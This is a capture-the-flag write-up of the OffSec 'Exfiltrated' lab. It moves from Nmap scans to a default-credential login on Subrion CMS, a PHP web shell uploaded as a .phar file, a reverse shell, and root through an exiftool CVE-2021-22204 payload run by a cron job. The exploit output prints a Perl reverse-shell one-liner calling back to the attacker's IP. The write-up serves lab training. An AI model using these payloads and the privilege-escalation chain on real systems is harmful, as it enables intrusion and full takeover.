









Writeup by wook413

[TOC]

# Recon

## Nmap

As per my standard methodology, I began the engagement with a three-stage Nmap scan: first, a full 65,535 TCP port sweep to identify open ports; second, a targeted service enumeration for version details; and finally, a UDP scan of the top 10 ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 20:43 UTC
Nmap scan report for 192.168.207.163
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.55 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,80                                                                    
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 20:44 UTC
Nmap scan report for 192.168.207.163
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to <http://exfiltrated.offsec/>
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 8.76 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 20:44 UTC
Nmap scan report for 192.168.207.163
Host is up (0.051s latency).

PORT     STATE         SERVICE
53/udp   closed        domain
67/udp   closed        dhcps
123/udp  closed        ntp
135/udp  closed        msrpc
137/udp  closed        netbios-ns
138/udp  closed        netbios-dgm
161/udp  closed        snmp
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp open|filtered ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 4.87 seconds
```

# Initial Access

## HTTP 80

The Nmap results indicated that only ports 22 and 80 were open. Before diving into the HTTP service on port 80, I ran the `http-enum` Nmap script to identify potential “quick wins” or hidden directories.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 80  
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 20:45 UTC
Nmap scan report for 192.168.207.163
Host is up (0.050s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-enum: 
|   /robots.txt: Robots file
|   /.gitignore: Revision control ignore file
|_  /changelog.txt: Version field

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 13.15 seconds
```

Upon accessing the target IP via a web browser, I observed a redirection to the `exfiltrated.offsec` domain. To resolve this, I mapped the target IP to the domain in my `/etc/hosts` file.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ echo "192.168.207.163 exfiltrated.offsec" | sudo tee -a /etc/hosts
[sudo] password for kali: 
192.168.207.163 exfiltrated.offsec
```


The `robots.txt` file was found to contain several interesting directories.

```bash
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```

I attempted to log in at the `/login` page using the default credentials `admin:admin` , which successfully granted me access.



logged in as `Administrator`


After authenticating, I confirmed through the `/panel` dashboard that the service was running **Subrion CMS version 4.2.1**



A search for “Subrion 4.2.1” on **Searchsploit** revealed both XSS and Arbitrary File Upload vulnerabilities. While XSS is a significant finding in real-world pentesting, I prioritized the file upload vulnerability as it is more effective in a CTF environment.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit subrion 4.2.1        
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
Subrion 4.2.1 - 'Email' Persistant Cross-Site Scripting                                                 | php/webapps/47469.txt
Subrion CMS 4.2.1 - 'avatar[path]' XSS                                                                  | php/webapps/49346.txt
Subrion CMS 4.2.1 - Arbitrary File Upload                                                               | php/webapps/49876.py
Subrion CMS 4.2.1 - Cross Site Request Forgery (CSRF) (Add Amin)                                        | php/webapps/50737.txt
Subrion CMS 4.2.1 - Cross-Site Scripting                                                                | php/webapps/45150.txt
Subrion CMS 4.2.1 - Stored Cross-Site Scripting (XSS)                                                   | php/webapps/51110.txt
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I downloaded the Arbitrary File Upload exploit script and provided the valid credentials, but the script initially failed with a “Login Failed” message.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 49876.py -u <http://exfiltrated.offsec/panel> -l 'admin' -p 'admin'
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: <http://exfiltrated.offsec/panel>
[+] Success!
[+] Got CSRF token: lqPBp7ENpc5QU0tgJd6KDQQYqjQFc44znS4pT5SU
[+] Trying to log in...

[x] Login failed... Check credentials
```

Upon reviewing the exploit’s source code, I discovered that it bypassed security filters by changing the payloads’ extension to `.phar` .



Navigating to the `Content` → `Uploads` tab, I manually uploaded a simple one-line PHP payload named `shell.phar` .



```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ cat shell.phar 
<?php system($_REQUEST['cmd']); ?>
```

After verifying its execution, I uploaded a more robust **Pentest Monkey PHP reverse shell**, also renamed with a `.phar` extension.





# Shell as `www-data`

To ensure a stable and interactive session, I set up a listener using `penelope` and successfully received a reverse shell connection.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 penelope.py -p 80 
[+] Listening for reverse shells on 0.0.0.0:80 →  127.0.0.1 • 192.168.136.128 • 172.17.0.1 • 172.20.0.1 • 192.168.45.236
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from exfiltrated~192.168.207.163-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/exfiltrated~192.168.207.163-Linux-x86_64/2026_01_29-21_53_56-882.log 📜
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@exfiltrated:/$ whoami
www-data
www-data@exfiltrated:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@exfiltrated:/$ hostname
exfiltrated
www-data@exfiltrated:/$ 
```

Acting as the `www-data` user, I began manual enumeration of the system.

```bash
www-data@exfiltrated:/var/www/html/subrion$ cat .gitignore 
.idea
.php_cs.cache
backup/*
!backup/.htaccess
includes/config.inc.php
modules/*
!modules/blog
!modules/fancybox
!modules/kcaptcha
*node_modules
templates/*
!templates/_common
!templates/kickstart
tmp/*
!tmp/.htaccess
uploads/*
!uploads/.htaccess
```

I discovered MySQL credentials within the `config.inc.php` file located in `/var/www/html/subrion/includes` .

```bash
www-data@exfiltrated:/var/www/html/subrion/includes$ cat config.inc.php 
<?php
/*
 * Subrion Open Source CMS 4.2.1
 * Config file generated on 10 June 2021 12:04:54
 */

define('INTELLI_CONNECT', 'mysqli');
define('INTELLI_DBHOST', 'localhost');
define('INTELLI_DBUSER', 'subrionuser');
define('INTELLI_DBPASS', 'target100');
define('INTELLI_DBNAME', 'subrion');
define('INTELLI_DBPORT', '3306');
define('INTELLI_DBPREFIX', 'sbr421_');

define('IA_SALT', '#5A7C224B51');

// debug mode: 0 - disabled, 1 - enabled
define('INTELLI_DEBUG', 0);
```

I successfully authenticated to MySQL using the discovered credentials and retrieved the admin user’s password hash. However, since the hash did not appear to be in the `rockyou.txt` wordlist, I halted the cracking attempt and continued my enumeration.

```bash
www-data@exfiltrated:/var/www/html/subrion/includes$ mysql -h localhost -u subrionuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \\g.
Your MariaDB connection id is 309
Server version: 10.3.39-MariaDB-0ubuntu0.20.04.2 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\\h' for help. Type '\\c' to clear the current input statement.

MariaDB [(none)]> 
MariaDB [subrion]> select * from sbr421_members;
+----+--------------+----------+--------------------------------------------------------------+--------------------------+---------+--------+---------------------+---------------------+---------------------+-----------+---------------+--------+---------+-------+-----------+----------+---------+-------+----------+-------+----------------+---------------+----------+----------------+--------------+-----------+-----------------+---------------+-------------------+----------------+------------------+----------------+
| id | usergroup_id | username | password                                                     | email                    | sec_key | status | date_reg            | date_update         | date_logged         | views_num | fullname      | avatar | website | phone | biography | facebook | twitter | gplus | linkedin | funds | disable_fields | admin_columns | featured | featured_start | featured_end | sponsored | sponsored_start | sponsored_end | sponsored_plan_id | api_push_token | api_push_receive | email_language |
+----+--------------+----------+--------------------------------------------------------------+--------------------------+---------+--------+---------------------+---------------------+---------------------+-----------+---------------+--------+---------+-------+-----------+----------+---------+-------+----------+-------+----------------+---------------+----------+----------------+--------------+-----------+-----------------+---------------+-------------------+----------------+------------------+----------------+
|  1 |            1 | admin    | $2y$10$yLtIS38vqzWRmZPY3RxqsetMJRRi6VzaiKdCU53R/bpa4AHhXyZ6G | admin@exfiltrated.offsec |         | active | 2021-06-10 12:04:54 | 2021-06-10 12:04:54 | 2026-01-29 16:15:03 |         1 | Administrator |        |         |       |           |          |         |       |          |  0.00 |              0 |               |        0 | NULL           | NULL         |         0 | NULL            | NULL          |                 0 |                | yes              | en             |
+----+--------------+----------+--------------------------------------------------------------+--------------------------+---------+--------+---------------------+---------------------+---------------------+-----------+---------------+--------+---------+-------+-----------+----------+---------+-------+----------+-------+----------------+---------------+----------+----------------+--------------+-----------+-----------------+---------------+-------------------+----------------+------------------+----------------+
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ echo '$2y$10$yLtIS38vqzWRmZPY3RxqsetMJRRi6VzaiKdCU53R/bpa4AHhXyZ6G' > admin.hash
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat --identify admin.hash                                      
The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
```

In the `/opt` directory, I found a suspicious script named `image-exif.sh` . This script was designed to process JPG files in the `/var/www/html/subrion/uploads` directory using `exiftool` and log the output to `/opt/metadata`

```bash
www-data@exfiltrated:/opt$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Jun 10  2021 .
drwxr-xr-x 20 root root 4096 Jan  7  2021 ..
-rwxr-xr-x  1 root root  437 Jun 10  2021 image-exif.sh
drwxr-xr-x  2 root root 4096 Jan 29 21:45 metadata
```

```bash
www-data@exfiltrated:/opt$ cat image-exif.sh 
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\\\n metadata directory cleaned! \\\\n\\\\n"

IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\\\n Processing EXIF metadata now... \\\\n\\\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\\\n\\\\n Processing is finished! \\\\n\\\\n\\\\n"
```

The installed version of `exiftool` was **11.88**, which is a known vulnerable version.

```bash
www-data@exfiltrated:/opt$ exiftool -ver
11.88
```

I found a **Remote Code Execution** exploit in the Exploit Database. This script automates the creation of a malicious JPG file embedded with a payload designed for this vulnerable version.



This exploit requires `djvulibre-bin` to be installed to proerly craft the metadata.



```bash
sudo apt-get install djvulibre-bin
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 50911.py -h                     
/home/kali/Desktop/50911.py:61: SyntaxWarning: invalid escape sequence '\\c'
  payload = "(metadata \\"\\c${"
UNICORD Exploit for CVE-2021-22204

Usage:
  python3 exploit-CVE-2021-22204.py -c <command>
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port>
  python3 exploit-CVE-2021-22204.py -c <command> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -h

Options:
  -c    Custom command mode. Provide command to execute.
  -s    Reverse shell mode. Provide local IP and port.
  -i    Path to custom JPEG image. (Optional)
  -h    Show this help menu.
```

Although the original exploit often defaults to a reverse shell, I observed stability issues with that approach in this environment. Therefore, I modified the payload to execute a command that sets the **SUID bit on the `/bin/bash` binary (`chmod +s /bin/bash`)** instead. This ensured a more reliable path to privilege escalation.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 50911.py -s 192.168.45.236 443

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\\|       / / / / |/ /  _/ ___/ __ \\/ _ \\/ _ \\
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\\____/_/|_/___/\\___/\\____/_/|_/____/....
    
RUNNING: UNICORD Exploit for CVE-2021-22204
PAYLOAD: (metadata "\\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(443,inet_aton('192.168.45.236')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")
RUNTIME: DONE - Exploit image written to 'image.jpg'
```

I uploaded the malicious `image.jpg` to the same uploads directory used for the initial access.



After a short wait for the script to execute, I confirmed that the SUID bit was successfully applied to `/bin/bash` .

```bash
www-data@exfiltrated:/var/www/html/subrion/uploads$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

# Shell as `root`

Finally, I executed `/bin/bash -p` to obtain a **root shell**.

```bash
www-data@exfiltrated:/var/www/html/subrion/uploads$ /bin/bash -p
bash-5.0# whoami
root
```

Found `proof.txt`

```bash
bash-5.0# cd /root
bash-5.0# ls -la
total 28
drwx------  4 root root 4096 Jan 30 01:25 .
drwxr-xr-x 20 root root 4096 Jan  7  2021 ..
lrwxrwxrwx  1 root root    9 Jun 10  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Jan  7  2021 .ssh
-rwx------  1 root root   33 Jan 30 01:25 proof.txt
drwxr-xr-x  3 root root 4096 Jan  7  2021 snap
bash-5.0# cat proof.txt
bd7...
```

Found `local.txt`

```bash
bash-5.0# cd /home/coaran/
bash-5.0# ls -la
total 24
drwx--x--x 2 coaran coaran 4096 Jun 10  2021 .
drwxr-xr-x 3 root   root   4096 Jun 10  2021 ..
lrwxrwxrwx 1 root   root      9 Jun 10  2021 .bash_history -> /dev/null
-rw-r--r-- 1 coaran coaran  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 coaran coaran 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 coaran coaran  807 Feb 25  2020 .profile
-rwxr--r-- 1 coaran coaran   33 Jan 30 01:33 local.txt
bash-5.0# cat local.txt
502...
```